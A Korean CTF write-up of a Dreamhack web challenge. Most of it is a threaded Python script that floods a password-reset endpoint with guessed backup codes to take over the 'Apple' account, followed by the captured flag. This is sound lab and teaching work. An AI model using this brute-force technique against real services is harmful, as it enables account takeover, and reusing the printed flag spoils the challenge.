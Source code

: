 암튼 쓰레드를 이용해서 요청을 퍼붇도록 파이썬 코드를 짰습니다.
```python
import threading
import requests

url = "http://host3.dreamhack.games:10862/forgot_password"
arr = []

def change_pw(backupCode):
    data = {"userid": "Apple", "newpassword": "1", "backupCode": backupCode}
    requests.post(url, data=data)


if __name__ == "__main__":
    for i in range(1, 100):
        t = threading.Thread(target=change_pw, args=[i])
        t.start()
        arr.append(t)

    for _ in arr:
        _.join()
```
코드를 실행하면 몇초 안걸려서 끝납니다. 그리고 Apple에 1로 로그인 하면 로그인이 성공할 겁니다.  
  
이제 admin 페이지 들어가서 flag를 얻으시면 됩니다.  
글 쓰다가 잠깐 다른거 하고 왔더니 서버 만료되서 사진은 없습니다.
```
DH{4b308b526834909157a73567075c9ab7}
```
{% endraw %}